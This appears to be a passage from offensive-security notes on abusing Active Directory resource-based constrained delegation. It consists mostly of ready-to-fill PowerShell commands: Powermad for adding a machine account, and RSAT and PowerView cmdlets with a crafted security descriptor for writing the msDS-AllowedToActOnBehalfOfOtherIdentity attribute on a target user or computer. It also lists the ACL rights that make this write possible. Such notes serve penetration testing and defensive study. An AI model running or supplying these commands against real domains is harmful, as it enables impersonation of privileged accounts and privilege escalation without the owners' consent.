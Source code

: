 The `Powermad`'s `New-MachineAccount` PowerShell cmdlet can be used to add a
machine account into the current or specified Active Directory domain:

```
New-MachineAccount -Verbose -MachineAccount <MACHINE_ACCOUNT_NAME> -Password $(ConvertTo-SecureString '<MACHINE_ACCOUNT_PASSWORD>' -AsPlainText -Force)

New-MachineAccount -Verbose -DomainController <DC_IP> -Credential <PSCredential> -MachineAccount <MACHINE_ACCOUNT_NAME> -Password $(ConvertTo-SecureString '<MACHINE_ACCOUNT_PASSWORD>' -AsPlainText -Force)
```

###### [Optional - For ACL exploit] Modification of the msDS-AllowedToActOnBehalfOfOtherIdentity attribute

In order to conduct the modification, the right to write the
`msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the domain object is
required. This right can be granted:
  - specifically (`WriteProperty` / `GenericWrite` on
    `GUID: 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79`),
  - indirectly through ownership of the object,
  - directly and indirectly through broader control rights on the object
    (`GenericAll`, `WriteOwner`, `WriteDACL`, `WriteProperty` / `GenericWrite`
    on all attributes).   

Refer to the `[ActiveDirectory] ACL exploiting` note for more information on
how to enumerate and, if necessary, exploit broader control rights to obtain
the right to write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

The `RSAT` `ActiveDirectory` module's `Get-ADComputer` and `Set-ADComputer`
PowerShell cmdlets can be used to modify the
`msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the specified service
or machine account:

```
# IDENTITY: DistinguishedName (DN), GUID, SID or SamAccountName
# ADPRINCIPAL: Get-ADUser -Identity <CONTROLLED_SERVICE_ACCOUNT_IDENTITY> / Get-ADComputer -Identity <CONTROLLED_MACHINE_IDENTITY>

Set-ADUser -Identity <TARGET_USER_IDENTITY> -PrincipalsAllowedToDelegateToAccount <ADPRINCIPAL>
Set-ADUser -Server <DC_IP | DC_HOSTNAME> -Credential <PSCredential> -Identity <TARGET_USER_IDENTITY> -PrincipalsAllowedToDelegateToAccount <ADPRINCIPAL>

Set-ADComputer -Identity <TARGET_COMPUTER_IDENTITY> -PrincipalsAllowedToDelegateToAccount <ADPRINCIPAL>
Set-ADComputer -Server <DC_IP | DC_HOSTNAME> -Credential <PSCredential> -Identity <TARGET_COMPUTER_IDENTITY> -PrincipalsAllowedToDelegateToAccount <ADPRINCIPAL>
```

Alternatively, the `PowerView`'s `Get-DomainComputer` and `Set-DomainObject`
PowerShell cmdlets may be used as well:

```
# IDENTITY: DistinguishedName (DN), GUID, SID or SamAccountName

$ControlledObjectSid = Get-DomainObject -Identity <CONTROLLED_SERVICE_ACCOUNT_IDENTITY | CONTROLLED_MACHINE_ACCOUNT_IDENTITY> -Properties objectsid  | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ControlledObjectSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainObject <TARGET_USER_IDENTITY | TARGET_COMPUTER_IDENTITY> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
